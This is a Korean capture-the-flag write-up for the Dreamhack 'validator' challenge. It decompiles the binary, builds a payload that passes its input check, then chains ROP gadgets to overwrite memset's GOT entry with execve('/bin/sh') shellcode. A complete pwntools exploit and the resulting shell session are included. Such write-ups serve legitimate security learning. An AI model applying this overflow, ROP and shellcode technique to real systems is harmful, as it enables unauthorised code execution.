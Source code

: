 # validator

- [문제 페이지](https://dreamhack.io/wargame/challenges/94)

## 문제 해설
이번 문제는 c코드가 주어지지 않았다.

따라서, ida와 gdb를 같이 사용하며 문제 풀이를 진행하였다.

먼저 ida프로에서 디컴파일된 c코드를 먼저 살펴보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char* correct= "DREAMHACK!";

int validate(char *s, unsigned int a2)
{
  unsigned int i; // [rsp+1Ch] [rbp-4h]
  signed int j; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 9; ++i )
  {
    printf("i: %d\n", i);
    if ( s[i] != correct[i] )
      exit(0);
  }
  for ( j = 11; a2 > j; ++j )
  {
    printf("j: %d\n", j);
    printf("%d %d\n", s[j], s[j+1]);
    if ( (unsigned int)s[j] != s[j + 1] + 1 )
      exit(0);
  }
  return 0LL;
}

int main(int argc, const char **argv, const char **envp)
{
  char s[0x80]; // [rsp+0h] [rbp-80h]

  memset(s, 0, 16uLL);
  read(0, s, 1024uLL);
  validate(s, 128uLL);
  return 0;
}
```
이는 ida를 통해 디컴파일된 코드를 실제 컴파일 가능한 c코드로 변형한 것이다.

인덱스가 0~9까지의 s가 "DREAMHACK!"인지, 인덱스가 11~128까지의 s가 s[i] = s[i+1]+1인지 판단하는 validate코드를 거친다.

이를 우회하기 위한 코드를 살펴보자.

```python
# validate
payload = b"DREAMHACK! "
i = 127;
while(True):
    if(len(payload) == 129):
        break;
    payload += (i).to_bytes(1, byteorder="little")
    i -= 1
payload += b"a"*7
```
payload를 앞서서 설명한 validate를 통과할 수 있도록 작성한 코드이다.

이제, /bin/sh를 실행시키기 위한 코드가 필요하다.

먼저 canary가 존재하지 않기 때문에, bof가 가능하다.

하지만, bof를 위해 /bin/sh를 실행시키 위한 함수가 파일 내에 존재하지 않고, libc파일 또한 주어지지 않았다.

따라서, rop를 발생시켜 /bin/sh를 실행시킬 수 있다.

파일 내에는 read함수가 존재한다. 이를 활용하여 memset의 got를 shellcode로 변경한 후 이를 실행하면 된다.

rop를 위한 가젯을 다음과 같다.

```python
# gadgets
pop_rdi =       0x00000000004006f3
pop_rsi_r15 =   0x00000000004006f1
pop_rdx =       0x000000000040057b
```

s는 $rbp-0x80에 존재하기 때문에 이전 0x88만큼은 채워두어야 한다.

이제, rop를 발생시키자.
```python
# ROP
payload += p64(pop_rdi)
payload += p64(0)

payload += p64(pop_rsi_r15)
payload += p64(e.got["memset"])
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0xffff)

payload += p64(e.plt["read"])

payload += p64(e.got["memset"])

p.send(payload)
```
이를 통해 read함수가 실행될 것이기 때문에 memset 함수를 shellcode로 변경해보자.

shellcode는 31bit shellcode를 사용했다.

다른 shellcode모두 사용해보았으나, 31bit shellcode만 /bin/sh를 성공적으로 실행시켰다.

```python
# shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
p.send(shellcode)
```
shellcode를 넣는 코드는 다음과 같다.

이제 모든 코드를 종합해 작성하면,
```python
from pwn import *

# gadgets
pop_rdi =       0x00000000004006f3
pop_rsi_r15 =   0x00000000004006f1
pop_rdx =       0x000000000040057b

# remote connect
#p = process("./validator_dist")
p = remote("host1.dreamhack.games", 11534)
e = ELF("./validator_dist")

# validate
payload = b"DREAMHACK! "
i = 127;
while(True):
    if(len(payload) == 129):
        break;
    payload += (i).to_bytes(1, byteorder="little")
    i -= 1
payload += b"a"*7

# ROP
payload += p64(pop_rdi)
payload += p64(0)

payload += p64(pop_rsi_r15)
payload += p64(e.got["memset"])
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0xffff)

payload += p64(e.plt["read"])

payload += p64(e.got["memset"])

p.send(payload)

# shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
p.send(shellcode)

p.interactive()
```
이다.

이를 실행시키면, 
```bash
[*] Switching to interactive mode
$ ls
flag
run.sh
validator
$ cat flag
DH{****************************************}
```
이다. 

![success](image.png)

## 풀이 소감

dreamhack의 system hack 기본의 마지막 문제이다보니 이전에 배운 많은 기법을 사용할 수 있었다. bof, 코드 읽기, rop 등을 통해 학습과정을 통해 배운 기법을 사용하며, 다시 한번 정리할 수 있는 풀이 과정이 됐다.

